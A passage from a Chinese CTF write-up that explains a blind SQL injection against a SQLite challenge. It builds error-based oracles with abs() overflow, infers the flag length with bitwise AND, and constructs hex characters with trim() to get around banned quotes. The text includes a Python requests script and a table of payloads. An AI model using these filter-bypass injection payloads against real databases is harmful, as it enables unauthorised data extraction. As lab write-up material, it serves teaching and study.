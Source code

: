 现在我们报错和判断正确的手段都有了，就要考虑特殊字符的绕过。

一堆限制，就用 hex 编码来进行绕过，因为一些比较的运算符都被 ban 了，我们利用位运算符代替：

以下脚本来自出题人师傅博客。

首先考虑 flag 长度的判断。

```
abs(case(length(hex((select(flag)from(flag))))&amp;`{`1&lt;&lt;n`}`)when(0)then(0)else(0x8000000000000000)end)
```

最外围我们用 `abs()` 抛出整数溢出的错误。

其中用 case 计算表达式，flag 长度与 ``{`1&lt;&lt;n`}`` 按位相与：

```
length(hex((select(flag)from(flag))))  &amp;  `{`1&lt;&lt;n`}`
```

``{`1&lt;&lt;n`}`` 也就是 2 的 n 次方，相与的作用只是为了把和 flag 长度（二进制）为 1 的部分记录下来，可想而知，一直从 1 循环到 n 为 16 ，我们把所有 1 都记录下来后，flag 的长度也就自然得出了。

```
# フラグの長さを特定
l = 0
i = 0
for j in range(16):
  r = requests.post(URL, data=`{`
    'id': f'abs(case(length(hex((select(flag)from(flag))))&amp;`{`1&lt;&lt;j`}`)when(0)then(0)else(0x8000000000000000)end)'
  `}`)
  if b'An error occurred' in r.content:
    l |= 1 &lt;&lt; j
print('[+] length:', l)
```

然后就是比对 hex 编码，0123456789 都能正常运用，但像 abcdef 就又要用到引号。

<a class="reference-link" name="%E8%A7%A3%E6%B3%95%E4%B8%80%20%E5%88%A9%E7%94%A8%20trim%20+%20hex%20%E5%88%A0%E9%99%A4%E6%9E%84%E9%80%A0%E5%AD%97%E7%AC%A6"></a>**解法一 利用 trim + hex 删除构造字符**

而上面我们不是提到 `trim()` 这个无差别，所有组合都会删除的函数吗，只要我们能构造出只有一个字母例如 A 的 hex 值，把全部数字删除，那不就得到 A 了吗？

如下，我们利用表中的数据和特殊函数的返回值来构造相应字符。

```
table = `{``}`
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)' 
# 'zebra' → '7A65627261'
# trim 删除 1,2,5,6,7 后只剩下了 A ，以下同理
table['C'] = 'trim(hex(typeof(.1)),12567)' 
# 'real' → '7265616C'
table['D'] = 'trim(hex(0xffffffffffffffff),123)' 
# 0xffffffffffffffff = -1 → '2D31'
table['E'] = 'trim(hex(0.1),1230)' 
# 0.1 → 302E31
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)' 
# 'dog' → '646F67'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||`{`table["C"]`}`||`{`table["F"]`}`)' 
# 'koala' → '6B6F616C61'
# || 是连接符，第二项的意思是 16||C||F ，也就是利用 trim 删除 1,6,C,F
```
